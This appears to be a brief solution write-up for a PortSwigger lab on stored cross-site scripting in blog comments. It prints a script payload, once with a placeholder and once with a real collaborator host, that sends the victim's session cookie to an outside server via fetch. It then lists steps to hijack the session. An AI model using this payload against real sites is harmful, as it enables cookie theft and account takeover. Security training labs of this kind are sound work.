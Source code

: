 # Exploiting cross-site scripting to steal cookies

## This lab contains a [stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored) vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim.

### Hint:

```javascript
<script> fetch('https://BURP-COLLABORATOR-SUBDOMAIN', { method: 'POST', mode: 'no-cors', body:document.cookie }); </script>
```

copy url from burpcollector
`t5z4yu4ozlb99987tz4q3wu3puvljc71.oastify.com`

```javascript
<script> fetch('https://t5z4yu4ozlb99987tz4q3wu3puvljc71.oastify.com', { method: 'POST', mode: 'no-cors', body:document.cookie }); </script>
```

submit comment

pull from burp collector
copy session id from http request
intercept home page
change session id and in poxy option mark response on
then forword lab solved

